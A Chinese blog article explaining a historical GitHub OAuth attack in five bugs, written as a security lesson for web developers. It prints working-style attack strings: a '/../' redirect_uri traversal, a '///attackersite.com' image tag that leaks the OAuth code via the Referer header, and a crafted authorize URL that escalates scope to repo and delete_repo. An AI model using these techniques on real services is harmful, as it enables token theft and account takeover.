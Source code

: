 # 从“黑掉GITHUB”学WEB安全开发

           Egor Homakov（Twitter: [@homakov](http://twitter.com/homakov)个人网站: [EgorHomakov.com](http://egorhomakov.com/)） 是一个Web安全的布道士，他这两天把github给黑了，并给github报了5个安全方面的bug，他在他的这篇blog—— 《[How I hacked Github again](http://homakov.blogspot.com/2014/02/how-i-hacked-github-again.html)》（墙） 说明了这5个安全bug以及他把github黑掉的思路。Egor的这篇文章讲得比较简单，很多地方一笔带过， 所以，**我在这里用我的语言给大家阐述一下黑掉Github的思路以及原文中所提到的那5个bug。 希望这篇文章能让从事Web开发的同学们警惕**。关于Web开发中的安全事项，大家可以看看这篇文章 《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》

![](../.gitbook/assets/git-1.png)

## OAuth简介

首先，这个故事要从[Github OAuth](https://developer.github.com/v3/oauth/)讲起。所以，我们需要先知道什么是[OAuth](http://en.wikipedia.org/wiki/OAuth)。所谓OAuth就是说，第三方的应用可以通过你的授权而不用知道你的帐号密码能够访问你在某网站的你自己的数据或功能。像Google, Facebook, Twitter等网站都提供了OAuth服务，提供OAuth服务的网站一般都有很多开放的API，第三方应用会调用这些API来开发他们的应用以让用户拥有更多的功能，但是，当用户在使用这些第三方应用的时候，这些第三方的应用会来访问用户的帐户内的功能和数据，所以，当第三应用要干这些事的时候，我们不能让第三方应用弹出一个对话框来问用户要他的帐号密码，不然第三方的应用就把用户的密码给获取了，所以，OAuth协议会跳转到一个页面，让用户授权给这个第三方应用以某些权限，然后，这个权限授权的记录保存在Google/Facebook/Twitter上，并向第三方应用返回一个授权token，于是第三方的应用通过这个token来操作某用户帐号的功能和数据时，就畅通无阻了。下图简单地说明了Twitter的OAuth的授权过程。

![](../.gitbook/assets/git-2.png)

从上面的流程图中，我们可以看OAuth不管是1.0还是2.0版本都是一个比较复杂的协议，所以，在Server端要把OAuth实现对并不是一些容易事，其总是或多或少会有些小错误。Egor就找到了几个Github的OAuth的实现的问题。

## OAuth的Callback

还需要注意的是，因为OAuth是需要跳到主站的网页上去让用户授权，当用户授权完后，需要跳转回原网页，所以，一般来说，OAuth授权页都会带一个 redirect\_url的参数，用于指定跳转回原来的网页。Github使用的这个跳转参数是redirect\_uri参数。一般来说，redirect\_uri这个参数需要在服务器端进行验证。

你想一下，如果有人可以控制这个redirect\_uri这个参数，那么，你就可以让其跳转到别的网页上（可能会是个有恶意的网页）。如果你觉得跳转到别的网页上也无所谓，那么你就错了。别忘了，当你对这个第三方的应用授权通过后，服务方会给第三方应用返回一个授权token，这个token会被加到那个redirect\_uri参数后面然后跳转回去，如果这个redirect\_uri被别有用心的人改一个恶意的网址后，这个token也就被转过去了，于是授权token也就被泄漏过去了。

知道了这一切，我们就可以理解Egor提的那5个bug是什么意思了。

## 第一个Bug — 没有检查重定向URL中的/../

首先，我们通过[Github的 redirect\_uri 的说明文档](https://developer.github.com/v3/oauth/#redirect-urls)我们可以看到这样的说明：

```text
如果 CALLBACK URL是: http://example.com/path

GOOD: https://example.com/path
GOOD: http://example.com/path/subdir/other

BAD: http://example.com/bar
BAD: http://example.com/
BAD: http://example.com:8080/path
BAD: http://oauth.example.com:8080/path
BAD: http://example.org
```

而Github对于redirect\_uri做了限制，要求只能跳回到 [https://gist.github.com/auth/github/callback/，也就是说，域名是gist.github.com，目录是/auth/github/callback/，服务器端做了这个限制，看似很安全了。](https://gist.github.com/auth/github/callback/，也就是说，域名是gist.github.com，目录是/auth/github/callback/，服务器端做了这个限制，看似很安全了。)

但是，Egor发现，Github的服务器端并没有验证.. /../../这样的情况。

于是，Egor相当于构造了一个下面这样的Redirect URL：

```text
https://gist.github.com/auth/github/callback/../../../homakov/8820324?code=CODE
```

于是上面的URL就相当于：

```text
https://gist.github.com/homakov/8820324?code=CODE
```

你可以看到，认证后的跳转网页转到了别的地方去（并非是github限制的地方）——我们知道Github的gist虽然是给你分享代码片段的，但是也可以用来定制自己的东西的（比如markdown），这个gist的网页当然是被Egor所控制的。

## 第二个BUG — 没有校验token

第一个bug其实并没有什么，如果服务器端要校验一下token是否和之前生成的token的redirect\_uri一模一样，只要服务器做了这个验证，第一个bug完全没有什么用处，但是，github的服务端并没有验证。

这就是第二个bug，于是第一个和第二个bug组合起来成了一个相当有威力的安全漏洞。

也就是说，token的生成要考虑redirect\_uri，这样，当URL跳转的时候，会把redirect\_uri和token带到跳转页面（这里的跳转页面还是github自己的），跳转页面的服务端程序要用redirect\_uri来生成一个token，看看是不是和传来的token是一个样的。这就是所谓的对URL进行签名——以保证URL的不被人篡改。一般来说，对URL签名和对签名验证的因子包括，源IP，服务器时间截，session，或是再加个salt什么的。

## 第三个BUG — 注入跨站图片

现在，redirect\_uri带着code，安全顺利地跳到了Egor构造的网页上：

```text
https://gist.github.com/homakov/8820324?code=CODE
```

但是，这个是gist的网页，你无法在这个页面上运行前端（Javascript）或后端程序（Ruby——Github是Ruby做的），现在的问题是我们怎么得到那个code，因为那个code虽然后带到了我的网页上来，但那个网页还是github和用户自己的环境。

到这里，一般来说，黑客会在这个页面上放一个诸如下面的一个链接，来引诱用户点击，：

```markup
`<a href=http://hack.you.com/>私人照片</a>`
```

这样，当页面跳转到黑客的网站上来后，你之前的网页上的网址会被加在http头里的 Refere 参数里，这样，我就可以得到你的token了。

但是，在gist上放个链接还要用户去点一下，这个太影响“用户体验”了，最好能嵌入点外部的东西。gist上可以嵌入外站的图片，但是github的开发人员并非等闲之辈，对于外站的图片，其统统会把这些图片的url代理成github自己的url，所以，你很难搞定。

不过，我们可以用一个很诡异的技巧：

```markup
<img src=”///attackersite.com>
```

这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。

### 像程序员一样的思考

这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，

* 对于绝对路径：你会匹配两个//，后面的可能会是 user@host.com（user@是可选的），然后可能会有:&lt;n&gt;端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。
* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。

好了，如果coolshell.cn网页中的&lt;img src=&gt;或&lt;a href=&gt;中用到的相对路径是 /host.com，那么浏览器会解释成：https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。

但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：

```text
[CoolShell Test](https://www.google.com/)
```

```text
<a href="///www.google.com">CoolShell Test</a>
```

关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。

于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。

到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。

## 第四个bug – Gist把github\_token放在了cookie里

于是Egor在用户的cookie里找到了 github\_token

![](../.gitbook/assets/git-3.png)

但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》）。

于是，Egor只能另谋出路。

## 第五个Bug – 自动给gist授权

因为gist是github自家的，Egor所以估计github想做得简单一点，当用户访问gist的时候，不会出弹出一个OAuth的页面来让用户授权，不然，用户就会很诧异，都是你们自家的东西，还要授权？所以，Egor猜测github应该是对gist做了自动授权，于是，Egor搞了这样的一个URL（注意其中的 redirect\_uri中的scope ）

```text
https://github.com/login/oauth/authorize?client_id=7e0a3cd836d3e544dbd9&redirect_uri=
https%3A%2F%2Fgist.github.com%2Fauth%2Fgithub%2Fcallback/../../../homakov/8820324&
response_type=code&scope=repo,gists,user,delete_repo,notifications
```

于是，这个redirect-uri不但帮黑客拿到了访问gist的token，而且还把授权token的scope扩大到了用户的代码库等其它权限。于是你就可以黑入用户的私有代码区了。

参考：

从“黑掉GITHUB”学WEB安全开发 [https://coolshell.cn/articles/11021.html](https://coolshell.cn/articles/11021.html)

